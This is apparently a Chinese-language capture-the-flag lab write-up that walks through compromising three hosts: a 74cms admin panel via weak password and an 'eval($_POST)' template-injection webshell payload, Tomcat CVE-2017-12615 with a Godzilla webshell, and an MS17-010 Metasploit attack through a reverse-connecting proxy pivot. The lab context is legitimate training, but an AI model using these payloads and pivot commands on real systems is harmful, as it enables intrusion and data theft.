


lab2
精简思路
1
|
10主机cms先拿shell，然后20主机cve拿shell，发现其有内网，扫到一个30主机，有永恒之蓝，搭建代理后msf直接打就行
|
74cms后台getshell漏洞-flag1
直接登登不了，扫描一下端口
1
|
fscan.exe -h 192.168.10.10
|

发现47cms，admin / admin123456 弱口令登录后台

发现他的版本，直接搜，找到一个rce的payload打
[74cms v4.2.1 v4.2.129 后台getshell漏洞 - Wiki](https://l1ubai.github.io/vuldb/Web安全/74cms/74cms v4.2.1 - v4.2.129-后台getshell漏洞/)

1
|
/index.php?m=admin&c=tpl&a=set&tpl_dir=','a',eval($_POST['1']),'
|
保存在了/Application/Home/Conf/config.php,连蚁剑直接拿flag

tomcat-cve-2017-12615-rce-flag2
发现此机子没内网，那上传fscan扫

1
|
fscan.exe -h 192.168.10.10/24
|

发现一个tomcat-cve-2017-12615-rce,搜一下直接打，参考下文
https://l1ubai.github.io/vuldb/Web%E5%AE%89%E5%85%A8/Tomcat/Tomcat%20%E5%90%8E%E5%8F%B0%E9%83%A8%E7%BD%B2war%E6%9C%A8%E9%A9%ACgetshell/
打直接要进入后台/manager/html，要用户密码，抓包发现用户密码在Authorization，直接爆破，发现爆破不出，有问题啊？
记一次暴力破解tomcat后台密码（附带python脚本）_tomcat后台登录字典-CSDN博客

看别人wp，先用哥斯拉生成一个马，直接put

哥斯拉直接连

拿到flag2

ms17-010-flag3
主机存在内网

将fscan和windows_x64_agent.exe上传上去，先扫
1
|
fscan.exe -h 192.168.20.20/24
|

发现一个ms17-101,先建代理，kaili
1
|
./linux_x64_admin -l 172.16.233.2:8000 -s 123
|
靶机
1
|
win_agent.exe -c 172.16.233.2:8000 -s 123 --reconnect 8
|
（这里又卡了一下，又是虚拟机不能访问网址，这次我kali连vpn都没用，后面发现是路由问题，这里要注意）
1
|
sudo openvpn --config cyberstrikelab.com-lab2.ovpn --keepalive 10 60 &
|
1
2
3
4
|
sudo ip route del 0.0.0.0/1 via 172.16.233.1
sudo ip route del 128.0.0.0/1 via 172.16.233.1
# 2. 添加目标网络路由（最关键的一步！）
sudo ip route add 192.168.10.0/24 via 172.16.233.1 dev tun0
|
然后就是，这个哥斯拉也要放在虚拟机上执行，因为是kali开的vpn！，不然代理搭不成！

1
2
3
4
5
|
proxychains4 msfconsole
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\\flag.txt
run
|